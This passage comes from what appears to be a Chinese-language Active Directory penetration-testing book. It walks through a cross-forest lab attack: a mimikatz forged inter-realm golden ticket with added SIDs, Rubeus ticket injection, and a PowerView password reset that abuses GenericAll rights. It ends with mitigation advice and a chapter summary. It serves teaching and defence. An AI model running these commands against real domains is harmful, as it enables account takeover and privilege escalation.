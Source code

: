 ![图 5.44 – essos.local 中的域组，RID > 1000](img/B18964_05_44.jpg)

图 5.44 – essos.local 中的域组，RID > 1000

**Spys** 对 **jorah.mormont** 用户具有 **GenericAll** 权限，这意味着我们可以完全控制该用户：

```
mimikatz.exe "kerberos::golden /user:Administrator /domain:sevenkingdoms.local /sid:S-1-5-21-4243769114-3325725031-2403382846 /sids:S-1-5-21-2801885930-3847104905-347266793-1109 /rc4:f622cc44c550868e310fbf5ded4194f3 /service:krbtgt /target:essos.local /ticket:trust.kirbi"
Rubeus.exe asktgs /ticket:trust.kirbi /service:ldap/meereen.essos.local /dc:meereen.essos.local /ptt
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jorah.mormont -domain essos.local -AccountPassword $UserPassword -Verbose
```

密码已成功更改，以下截图显示了这一点：

![图 5.45 – 密码更改成功](img/B18964_05_45.jpg)

图 5.45 – 密码更改成功

使用 **crackmapexec** 验证新密码是否已成功设置：

![图 5.46 – 使用新密码成功登录](img/B18964_05_46.jpg)

图 5.46 – 使用新密码成功登录

为防止跨林滥用，确保严格的 SID 过滤已启用，TGT 委派和 SID 历史已禁用，并且 ACL 已正确应用于林中的对象。然而，如果攻击者能够破坏或冒充具有外部组成员资格的用户，只有选择性认证才能限制损害。

# 总结

本章讨论了横向渗透的主题。我们讨论了如何使用管理协议在环境中进行移动。这是一种有效的方式，可以与正常流量融合并避开监控。哈希转发的概念是一个强有力的武器，尤其是在缺乏加固的环境中。像禁用未使用的协议和服务这样的简单建议，可以显著提高安全性。需要指出的是，在复杂的环境中，即使是简单的变更也可能造成混乱和宕机，因此需要进行彻底的测试。深入探讨 Kerberos 认证、不同类型的委派以及如何滥用它们，帮助我们更详细地理解 Kerberos 协议的复杂性以及每种委派类型的安全影响。我们已经在实践中证明，对于成功的横向渗透，攻击者不一定需要受害者的密码。任何形式的凭证材料，如哈希值、票据或密钥，都可以作为替代。保持隐蔽并模拟真实的身份验证尝试需要对你的技术有深入的理解。在 *第八章* 中，我们将展示证书也可以用于横向渗透。最后但同样重要的是，跨林横向渗透表明，这不仅仅关乎你的安全性，还涉及到你的受托人是谁。在下一章中，我们将讨论域内特权提升的问题。

# 参考资料

